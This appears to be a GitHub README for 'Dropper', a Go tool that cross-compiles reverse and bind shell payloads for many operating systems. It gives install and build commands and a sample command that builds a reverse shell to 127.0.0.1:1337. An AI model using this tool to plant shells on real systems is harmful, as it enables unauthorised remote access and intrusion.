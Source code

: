 Dropper

Cross compiling reverse/bind payload generator written in Go.
 
In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+
<br>
&#x2d; windows<br>
&#x2d; linux<br>
&#x2d; freebsd<br>
&#x2d; nacl<br>
&#x2d; netbsd<br>
&#x2d; openbsd<br>
&#x2d; plan9<br>
&#x2d; solaris<br>
&#x2d; dragonfly<br>
&#x2d; darwin<br>
&#x2d; android<br>

&#x3e;_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
